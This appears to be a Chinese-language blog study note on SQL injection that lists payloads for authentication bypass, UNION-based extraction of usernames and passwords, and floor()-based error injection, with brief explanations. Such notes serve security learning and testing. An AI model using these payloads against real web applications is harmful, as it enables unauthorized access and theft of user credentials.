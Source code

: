 ```yaml
---
title: sql注入
date: '2025-05-02 17:48:18'
updated: '2025-05-09 09:35:24'
permalink: /post/sql-injection-zkla2f.html
comments: true
toc: true
---
```




# sql注入

## sql注入

### SQL注入语句

1. 基础注入

   ```sql
   admin' OR '1'='1
   ```

   ```sql
   admin'--+      // 注释后面的内容
   ```

   ```sql
   admin'#       // 注释后面的内容
   ```
2. UNION查询注入
   通过关键字UNION将结果附加到原来的查询中

   ```sql
   ' UNION SELECT   username , password FROM users--
   ```

   如果列数不够，使用||将结构合成一列

   ```sql
   'UNION SELECT password || '-' || username FROM users
   ```

   要执行UNION攻击有两个要求

   * 原始查询返回了多少列
   * 从原始查询返回的哪些列具有合适的数据类型来保存注入查询的结果
3. 报错注入

   利用数据库的错误信息会回显在网页上的特点，获取数据库的内容

   1. floor() 报错注入
      该语句的输出字符长度为64个字符

      ```sql
      and (select 1 from 
      (select count(*),concat(payload),floor(rand(0)*2))x 
      from information_schema.tables group by x)a)
      ```
